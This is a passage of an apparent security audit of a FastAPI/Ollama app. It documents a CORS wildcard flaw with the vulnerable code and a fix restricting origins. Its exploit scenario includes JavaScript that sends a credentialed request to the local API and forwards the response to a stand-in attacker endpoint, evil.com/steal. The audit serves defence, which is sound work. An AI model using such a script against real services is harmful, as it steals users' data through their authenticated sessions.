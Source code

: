 3. **Use FAISS's native save/load**:
```python
# Save
faiss.write_index(vectors.index, f"{filename}.faiss")

# Load
index = faiss.read_index(f"{filename}.faiss")
vectors = FAISS(index=index, docstore=..., index_to_docstore_id=...)
```

#### S4: CORS Wildcard (HIGH)
**Location**: `app_fastapi_ollama.py:35-41`
**Code**:
```python
app.add_middleware(
    CORSMiddleware,
    allow_origins=["*"],  # ⚠️ Allows any website!
    allow_credentials=True,
    allow_methods=["*"],
    allow_headers=["*"],
)
```

**Threat Vector**:
- Malicious website at `evil.com` can make requests to your API
- If user is authenticated, attacker can steal data via CSRF

**Exploit Scenario**:
```html
<!-- evil.com/attack.html -->
<script>
fetch('http://localhost:8000/chat/', {
  method: 'POST',
  credentials: 'include',  // Send cookies
  body: new FormData(...)
}).then(r => r.json())
  .then(data => {
    // Send stolen data to attacker
    fetch('https://evil.com/steal', {
      method: 'POST',
      body: JSON.stringify(data)
    });
  });
</script>
```

**Fix**:
```python
ALLOWED_ORIGINS = os.getenv("ALLOWED_ORIGINS", "http://localhost:3000,http://localhost:8000").split(",")

app.add_middleware(
    CORSMiddleware,
    allow_origins=ALLOWED_ORIGINS,
    allow_credentials=True,
    allow_methods=["GET", "POST"],  # Explicit methods only
    allow_headers=["Content-Type", "Authorization"],
)
```
